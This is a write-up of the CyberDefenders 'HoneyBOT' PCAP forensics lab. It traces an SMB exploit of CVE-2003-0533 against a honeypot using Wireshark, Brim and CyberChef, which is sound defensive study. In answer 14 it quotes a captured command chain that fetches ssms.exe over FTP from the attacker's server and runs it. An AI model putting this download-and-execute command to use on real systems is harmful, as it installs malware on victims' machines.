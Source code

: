 # Challenge Report for HoneyBOT

- **Challenge Name: HoneyBOT**
- **Date: Done before I started documenting.**
- **URL: <https://cyberdefenders.org/labs/45>**
- **Status: Complete**

***

## Description

A PCAP analysis exercise highlighting attacker's interactions with honeypots and how automatic exploitation works.. (Note that the IP address of the victim has been changed to hide the true location.)

## Tools Used

- Wireshark
- Brim
- Cyberchef

## Analysis

1. What is the attacker's IP address?

    **98.114.205.102**

    ```text
    Found using BRIM and the Suricata Alert by Source and Destination.
    ```

2. What is the target's IP address?  

    **192.150.11.111**

    ```text
    Found using BRIM and the Suricata Alert by Source and Destination.
    ```

3. Provide the country code for the attacker's IP address (a.k.a geo-location).

    **US**

    ```text
    MXToolbox Arin lookup of the attackers IP.
    ```

4. How many TCP sessions are present in the captured traffic?

    **5**

    ```text
    Wireshark -> Convertsations -> TCP
    ```

5. How long did it take to perform the attack (in seconds)?

    **16**

    ```text
    BRIM overview & time maths
    ```

6. No 6?

7. Provide the CVE number of the exploited vulnerability.

    **CVE-2003-0533**

    ```text
    Wireshark shows DsRuleUpgradeDownlevelServer response.  Searching <https://www.cvedetails.com/> found it.
    ```

8. Which protocol was used to carry over the exploit?

    **smb**

    ```text
    Found in BRIM Overview
    ```

9. Which protocol did the attacker use to download additional malicious files to the target system?

    **ftp**

    ```text
    Found in BRIM Overview
    ```

10. What is the name of the downloaded malware?

    **ssms.exe**

    ```text
    Found in BRIM Overview
    ```

11. The attacker's server was listening on a specific port. Provide the port number.

    **8884**

    ```text
    Found in BRIM Overview
    ```

12. When was the involved malware first submitted to VirusTotal for analysis?

    **2007-06-27**

    ```text
    Grabbed FTP Stream in Wireshark and saved as file.  File is ssms.exe and Virustotal says; 2007-06-27
    ```

13. What is the key used to encode the shellcode?

    **0x99**

    ```text
    Found the attack in tcp stream 1. NOP sled followed by shellcode followed by another NOP sled.  Cut out the shellcode and used Cyberchef to convert to asm.
    ```

14. What is the port number the shellcode binds to?

    **1957**

    ```text
    TCP Stream 2 we can see "echo open 0.0.0.0 8884 > o&echo user 1 1 >> o &echo get ssms.exe >> o &echo quit >> o &ftp -n -s:o &del /F /Q o &ssms.exe" which happens on port 1957.
    ```

15. The shellcode used a specific technique to determine its location in memory. What is the OS file being queried during this process?

    **kernel32.dll**
